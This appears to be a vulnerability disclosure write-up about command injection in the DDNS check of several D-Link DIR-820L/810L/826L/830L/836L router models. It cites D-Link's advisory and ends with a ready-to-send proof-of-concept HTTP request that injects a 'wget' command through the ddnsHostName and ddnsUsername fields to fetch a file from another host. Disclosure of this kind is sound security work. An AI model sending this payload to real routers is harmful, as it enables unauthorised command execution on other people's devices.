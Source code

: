 # D-LINK_DIR820L(series)_Command_Injection

#### Official certification
https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10264

#### Impact equipment

D-Link DIR-820L  (Rev A) ALL

D-Link DIR-820L  (Rev B) ALL

DIR-830L A1 

D-Link DIR-810L (Rev A) ALL

D-Link DIR-810L (Rev B) ALL

D-Link DIR-810L (Rev A) ALL

D-Link DIR-826L (Rev A) ALL

DIR-836L (Rev A) 

DIR-820LW (Rev A)

#### Firmware_link

https://tsd.dlink.com.tw/

#### Detail

​	Router firmware such as D-Link dir-820l checks the DDNS function in ncc2 binary file for command injection, which can cause arbitrary command execution

#### Detail

​	There is a “doCheck” function in the ncc2 binary file, as shown below in IDA

<img src="./img/image-20211219002658341.png" alt="image-20211219002658341" style="zoom:50%;" />

​	 Can see that the ddnshostname and ddnusername variables are controllable and directly brought in without any check_ System function this function is essentially the execution of the formatted system function, resulting in command injection	

<img src="./img/image-20211219003013336.png" alt="image-20211219003013336" style="zoom:50%;" />

#### POC

```
POST /ddns_check.ccp HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 186
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/storage.asp
Cookie: hasLogin=1

ccp_act=doCheck&ddnsHostName=;wget${IFS}http://192.168.0.100:9988/doudou.txt;&ddnsUsername=;wget${IFS}http://192.168.0.100:9988/doudou.txt;&ddnsPassword=123123123
```
